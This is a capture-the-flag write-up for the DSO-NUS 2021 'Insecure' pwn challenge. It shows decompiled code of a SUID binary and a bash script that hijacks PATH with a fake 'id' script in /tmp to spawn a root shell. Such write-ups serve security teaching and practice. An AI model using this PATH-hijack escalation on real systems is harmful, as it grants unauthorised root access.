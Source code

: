 ```yaml
---
title : "Insecure [Pwn]"
categories: DSO-NUS2021
---
```


Exploit a program that changes user privilege to root with `setuid()` to escalate privilege. First pwn challenge from DSO-NUS 2021.

# Challenge Description
```
Someone once told me that SUID is a bad idea. Could you show me why?

This challenge server can be accessed here:

(Any one of the options below is fine)
(Suggested access via 'nc')
nc ctf-85ib.balancedcompo.site 9999
nc ctf-sn3y.balancedcompo.site 9999
nc ctf-rv6w.balancedcompo.site 9999
nc ctf-ptb1.balancedcompo.site 9999
nc ctf-f3jj.balancedcompo.site 9999
nc ctf-4q22.balancedcompo.site 9999
nc ctf-7jca.balancedcompo.site 9999
nc ctf-ea38.balancedcompo.site 9999
nc ctf-jfi4.balancedcompo.site 9999
nc ctf-ks5n.balancedcompo.site 9999

Files (Any of the links are fine):
https://nusdsoctf2.s3-ap-southeast-1.amazonaws.com/S3/Insecure/insecure
https://nusdsoctf.s3-ap-southeast-1.amazonaws.com/S3/Insecure/insecure

*Debug the Pwn challenges locally on your system before connecting to the remote challenge server to exploit and get the flag.

 >> Flag format conversion may have to be done for this challenge (Refer to notifications)
```

# Solution

Throw the binary into ghidra and navigate to the main function. This is the decompiled main function:

```c
undefined8 FUN_00400746(void)
{
  __uid_t __uid;
  __uid_t __uid_00;
  int iVar1;
  undefined8 uVar2;
  
  __uid = getuid();
  puts("I am a SUID binary and can run in varying levels of privilege!");
  puts("\nNow, I run in a less privileged context.");
  system("id");
  __uid_00 = geteuid();
  iVar1 = setuid(__uid_00);
  if (iVar1 == 0) {
    puts("\nNext, I wil run in a more privileged context.");
    system("id");
    setuid(__uid);
    puts("\nOnce I am done, as a good practice, I should return my privileges.");
    puts("And I run in a less privileged context again.");
    system("id");
    uVar2 = 0;
  }
  else {
    printf("Eh? Something went wrong leh.");
    printf("Can contact some geeks about this? Thanks!");
    perror("seteuid");
    uVar2 = 0xffffffff;
  }
  return uVar2;
}
```

There's no input taken, hmm... Since I had no idea on what to do at this point, I connected to their server via nc and looked around.

In the root directory, there's a `flag.txt` but it can only be read with root privilege. We also have access to only a handful of basic UNIX commands: `ls`, `cd`, `chmod`, `id`, `cat` `echo`, etc. They can be found in `/bin`.

Another useful information is that all the files and folders do not have write permission for the current user except for `/tmp`. So we need to perform privilege escalation by using the second `system("id")` in the program to spawn a shell with root privilege.

To do this, we can create a script in `/tmp` to replace the original `id` script such that it calls `/bin/bash` the second time it is called. To achieve this, we can execute a temporary file (a layer) during the first call. This layer file will change the `id` script to spawn shell. Then during the second call, a shell will be spawned.

Finally, to make sure that `system("id")` properly calls our script, we need to `chmod +x` and add the directory to `PATH`.

# Final Script
```bash
echo "#!/bin/bash
/tmp/layer;" > /tmp/id

echo "#!/bin/bash
echo '#!/bin/bash
/bin/bash;' > /tmp/id" > /tmp/layer

chmod +x /tmp/id

chmod +x /tmp/layer

export PATH=/tmp:$PATH

/bin/insecure

cat flag.txt
```

Flag: lost it XD
